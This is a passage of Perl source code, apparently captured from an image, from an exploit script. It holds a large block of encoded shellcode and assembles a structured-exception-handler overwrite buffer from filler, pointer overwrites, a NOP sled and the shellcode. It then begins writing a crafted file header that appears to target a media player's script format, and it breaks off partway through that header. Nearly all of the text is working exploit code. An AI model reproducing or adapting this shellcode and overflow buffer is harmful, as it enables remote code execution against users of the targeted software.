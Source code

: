 ```perl
"\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58\x50\x38\x41" .
"\x42\x75\x4a\x49\x79\x6c\x38\x68\x6e\x62\x37\x70\x63\x30" .
"\x77\x70\x55\x30\x6f\x79\x6a\x45\x66\x51\x6f\x30\x42\x44" .
"\x6c\x4b\x50\x50\x76\x50\x4e\x6b\x73\x62\x46\x6c\x6e\x6b" .
"\x61\x42\x66\x74\x4e\x6b\x34\x32\x74\x68\x34\x4f\x4f\x47" .
"\x43\x7a\x56\x46\x74\x71\x4b\x4f\x6e\x4c\x47\x4c\x33\x51" .
"\x31\x6c\x66\x62\x34\x6c\x67\x50\x6a\x61\x58\x4f\x74\x4d" .
"\x77\x71\x6f\x37\x58\x62\x7a\x52\x42\x72\x52\x77\x6c\x4b" .
"\x70\x52\x74\x50\x6e\x6b\x43\x7a\x77\x4c\x4c\x4b\x72\x6c" .
"\x72\x31\x73\x48\x5a\x43\x43\x78\x53\x31\x5a\x71\x46\x31" .
"\x4e\x6b\x50\x59\x47\x50\x33\x31\x4b\x63\x6c\x4b\x57\x39" .
"\x44\x58\x48\x63\x67\x4a\x70\x49\x4c\x4b\x35\x64\x4c\x4b" .
"\x35\x51\x6b\x66\x30\x31\x69\x6f\x6c\x6c\x6b\x71\x4a\x6f" .
"\x36\x6d\x75\x51\x68\x47\x45\x68\x6d\x30\x50\x75\x5a\x56" .
"\x46\x63\x61\x6d\x39\x68\x55\x6b\x61\x6d\x61\x34\x50\x75" .
"\x78\x64\x50\x58\x6e\x6b\x71\x48\x67\x54\x67\x71\x79\x43" .
"\x53\x56\x4e\x6b\x74\x4c\x32\x6b\x4c\x4b\x56\x38\x55\x4c" .
"\x75\x51\x79\x43\x6c\x4b\x57\x74\x4c\x4b\x75\x51\x68\x50" .
"\x4b\x39\x67\x34\x76\x44\x64\x64\x33\x6b\x71\x4b\x31\x71" .
"\x72\x79\x72\x7a\x32\x71\x49\x6f\x4d\x30\x31\x4f\x43\x6f" .
"\x50\x5a\x4c\x4b\x75\x42\x7a\x4b\x4c\x4d\x53\x6d\x35\x38" .
"\x70\x33\x45\x62\x67\x70\x73\x30\x45\x38\x51\x67\x34\x33" .
"\x30\x32\x63\x6f\x36\x34\x62\x48\x62\x6c\x73\x47\x54\x66" .
"\x56\x67\x69\x6f\x39\x45\x78\x38\x6e\x70\x67\x71\x55\x50" .
"\x53\x30\x66\x49\x4f\x34\x71\x44\x36\x30\x55\x38\x37\x59" .
"\x4d\x50\x72\x4b\x35\x50\x59\x6f\x58\x55\x42\x70\x50\x50" .
"\x50\x50\x72\x70\x31\x50\x76\x30\x57\x30\x46\x30\x72\x48" .
"\x58\x6a\x76\x6f\x49\x4f\x59\x70\x79\x6f\x6e\x35\x6c\x57" .
"\x50\x6a\x36\x65\x72\x48\x63\x4f\x43\x30\x47\x70\x47\x71" .
"\x50\x68\x75\x52\x47\x70\x72\x31\x53\x6c\x4b\x39\x39\x76" .
"\x71\x7a\x66\x70\x70\x56\x43\x67\x72\x48\x6e\x79\x4e\x45" .
"\x54\x34\x63\x51\x69\x6f\x5a\x75\x6e\x65\x49\x50\x31\x64" .
"\x46\x6c\x79\x6f\x50\x4e\x66\x68\x50\x75\x68\x6c\x31\x78" .
"\x58\x70\x38\x35\x39\x32\x61\x46\x6b\x4f\x48\x55\x73\x58" .
"\x61\x73\x32\x4d\x71\x74\x67\x70\x4c\x49\x7a\x43\x46\x37" .
"\x43\x67\x43\x67\x70\x31\x48\x76\x50\x6a\x52\x32\x72\x79" .
"\x32\x76\x5a\x42\x79\x6d\x35\x36\x4b\x77\x37\x34\x34\x64" .
"\x47\x4c\x47\x71\x65\x51\x4e\x6d\x37\x34\x45\x74\x72\x30" .
"\x78\x46\x75\x50\x52\x64\x43\x64\x42\x70\x70\x56\x30\x56" .
"\x32\x76\x32\x66\x53\x66\x42\x6e\x52\x76\x61\x46\x32\x73" .
"\x53\x66\x33\x58\x62\x59\x7a\x6c\x57\x4f\x4b\x36\x6b\x4f" .
"\x6b\x65\x4f\x79\x49\x70\x72\x6e\x76\x36\x31\x56\x39\x6f" .
"\x76\x50\x35\x38\x43\x38\x4f\x77\x37\x6d\x51\x70\x6b\x4f" .
"\x68\x55\x6d\x6b\x78\x70\x6c\x75\x69\x32\x31\x46\x33\x58" .
"\x4c\x66\x5a\x35\x4f\x4d\x4d\x4d\x4b\x4f\x6a\x75\x45\x6c" .
"\x43\x36\x63\x4c\x45\x5a\x6f\x70\x59\x6b\x69\x70\x71\x65" .
"\x46\x65\x4d\x6b\x77\x37\x76\x73\x43\x42\x62\x4f\x50\x6a" .
"\x33\x30\x70\x53\x39\x6f\x79\x45\x41\x41";

# combine all the malicious input components together
$buffer = $filler . $next_seh_ptr_overwrite . $seh_handler_ptr_overwrite . $nops . $shellcode;

binmode STDOUT;

$| = 1;

$length = "\xFF\xFF";

my $maki =
"\x46\x47" .                              # Magic
"\x03\x04" .                              # Version
"\x17\x00\x00\x00" .                      # ???
"\x01\x00\x00\x00" .                      # Types count
```